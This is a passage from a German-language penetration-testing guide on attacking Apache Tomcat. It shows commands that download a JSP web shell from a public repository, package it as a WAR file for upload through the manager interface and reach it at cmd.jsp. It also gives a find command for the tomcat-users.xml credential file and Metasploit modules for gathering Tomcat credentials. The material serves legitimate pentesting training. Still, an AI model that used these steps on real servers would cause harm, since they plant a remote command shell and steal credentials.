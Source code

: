 ### Manuelle Methode 2

Holen Sie sich eine JSP-Web-Shell wie [diese](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) und erstellen Sie eine WAR-Datei:
```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
# When this file is uploaded to the manager GUI, the /backup application will be added to the table.
# Go to: http://tomcat-site.local:8180/backup/cmd.jsp
```
## POST

Der Name der Tomcat-Anmeldeinformationen-Datei ist _tomcat-users.xml_
```bash
find / -name tomcat-users.xml 2>/dev/null
```
Andere Möglichkeiten, um Tomcat-Anmeldeinformationen zu sammeln:
```bash
msf> use post/multi/gather/tomcat_gather
msf> use post/windows/gather/enum_tomcat
```
## Andere Tomcat-Scanning-Tools

* [https://github.com/p0dalirius/ApacheTomcatScanner](https://github.com/p0dalirius/ApacheTomcatScanner)

## Referenzen

* [https://github.com/simran-sankhala/Pentest-Tomcat](https://github.com/simran-sankhala/Pentest-Tomcat)
* [https://hackertarget.com/sample/nexpose-metasploitable-test.pdf](https://hackertarget.com/sample/nexpose-metasploitable-test.pdf)


{% hint style="success" %}